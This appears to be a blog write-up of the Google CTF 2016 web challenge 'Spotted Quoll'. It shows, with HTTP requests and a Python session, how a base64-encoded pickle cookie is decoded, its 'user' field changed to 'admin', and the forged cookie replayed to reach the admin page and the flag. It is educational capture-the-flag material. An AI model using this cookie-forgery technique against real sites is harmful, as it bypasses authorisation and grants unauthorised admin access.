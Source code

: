 ```yaml
---
title: "GoogleCTF - Spotted Quoll Write-Up"
date: "2016-05-01"
slug: "googlectf-spotted-quoll-write-up"
Categories:
- CTF
---
```


## Intro

I participated in the Google CTF this weekend and really enjoyed the challenges. Here is a
write-up of one of my solutions.

## Challenge

**Spotted Quoll** was a web challenge worth 50 points. The details of the challenge are in the image below.

![Problem](/images/gctf_2016/problem.png)

I loaded up the blog and looked for any clues:

![Blog](/images/gctf_2016/blog.png)

<!--more-->

## Solution

I started up *burp* and reloaded the page. I navigated to the <code>/admin</code> section of the blog and received an error:

![Error](/images/gctf_2016/error.png)

A cookie called "obsoletePickle" was being passed with my requests.

{{< highlight html >}}
      GET / HTTP/1.1
      Host: spotted-quoll.ctfcompetition.com
      User-Agent: foo
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate, br
      Cookie: obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu
      Connection: close
{{< /highlight >}}

I recognized the pickle module from my python studies.

      The pickle module implements a fundamental, but powerful algorithm for serializing and de-serializing a Python object structure.

I loaded up the string in python and decoded it:

{{< highlight bash >}}
$ python
>>> import pickle
>>> import base64
>>> pickle.loads('KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu'.decode('base64'))
{'python': 'pickles', 'subtle': 'hint', 'user': None}
{{< /highlight >}}

Interesting - it clearly shows 'user' with no value. Let's modify the cookie to change the user to 'admin'.

{{< highlight bash >}}
>>> pickle.dumps({'python': 'pickles', 'subtle': 'hint', 'user': 'admin'})
"(dp0\nS'python'\np1\nS'pickles'\np2\nsS'subtle'\np3\nS'hint'\np4\nsS'user'\np5\nS'admin'\np6\ns."
>>> p = pickle.dumps({'python': 'pickles', 'subtle': 'hint', 'user': 'admin'})
>>> msg = base64.b64encode(p)
>>> print msg
KGRwMApTJ3B5dGhvbicKcDEKUydwaWNrbGVzJwpwMgpzUydzdWJ0bGUnCnAzClMnaGludCcKcDQKc1MndXNlcicKcDUKUydhZG1pbicKcDYKcy4=
>>> pickle.loads('KGRwMApTJ3B5dGhvbicKcDEKUydwaWNrbGVzJwpwMgpzUydzdWJ0bGUnCnAzClMnaGludCcKcDQKc1MndXNlcicKcDUKUydhZG1pbicKcDYKcy4='.decode('base64'))
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}””
{{< /highlight >}}

Now instead of *user* being 'None' it is 'admin':

      {'python': 'pickles', 'subtle': 'hint', 'user': admin}

I reloaded the <code>/admin</code> page and submitted my modified cookie.

      GET /admin HTTP/1.1
      Host: spotted-quoll.ctfcompetition.com
      User-Agent: foo
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate, br
      Cookie: obsoletePickle=KGRwMApTJ3B5dGhvbicKcDEKUydwaWNrbGVzJwpwMgpzUydzdWJ0bGUnCnAzClMnaGludCcKcDQKc1MndXNlcicKcDUKUydhZG1pbicKcDYKcy4=
      Connection: close


![Solution](/images/gctf_2016/solution.png)

Success! The flag is "CTF{but_wait,theres_more.if_you_call}"
